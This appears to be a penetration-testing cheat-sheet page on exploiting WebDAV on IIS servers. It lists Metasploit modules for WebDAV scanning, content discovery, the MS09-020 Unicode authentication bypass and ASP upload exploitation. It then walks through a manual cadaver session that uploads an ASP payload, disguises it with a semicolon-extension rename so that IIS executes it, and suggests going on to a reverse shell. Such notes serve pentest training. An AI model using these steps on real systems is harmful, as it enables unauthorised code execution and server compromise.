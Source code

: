 # ⭕ WebDAV

### <mark style="color:orange;">WebDAV Exploitation using Metasploit</mark> <a href="#webdav-exploitation-using-metasploit" id="webdav-exploitation-using-metasploit"></a>

```bash
# Checking WebDAV using metasploit
use auxiliary/scanner/http/webdav_scanner
set rhosts <IP>
run

# Content discovery using metasploit
use auxiliary/scanner/http/webdav_website_content
set rhosts <IP>
run

# Checking authentication using metasploit
use auxiliary/scanner/http/ms09_020_webdav_unicode_bypass
set rhosts <IP>
run

# Upload exploitation using metasploit
use exploit/windows/iis/iis_webdav_upload_asp
```

### <mark style="color:orange;">Manual WebDAV exploitation (cadaver)</mark> <a href="#manual-webdav-exploitation-cadaver" id="manual-webdav-exploitation-cadaver"></a>

```bash
cadaver http://IP/

# Goal is to upload file on IIS Server.
ls 

# Find a directory where we can upload.
cd <path>

# Test for upload
put /path/to/test.asp test.asp

# Upload payload
put /path/to/payload.asp longnamebrotesttest123456789.txt

# Copy and rename payload
copy longnamebrotesttest123456789.txt longnamebrotesttest123456789.asp;.txt

# Access (should execute the ASP content)
http://IP/_vti_pvt/longnamebrotesttest123456789.asp%3b.txt
        
# Then go for reverse shell
```
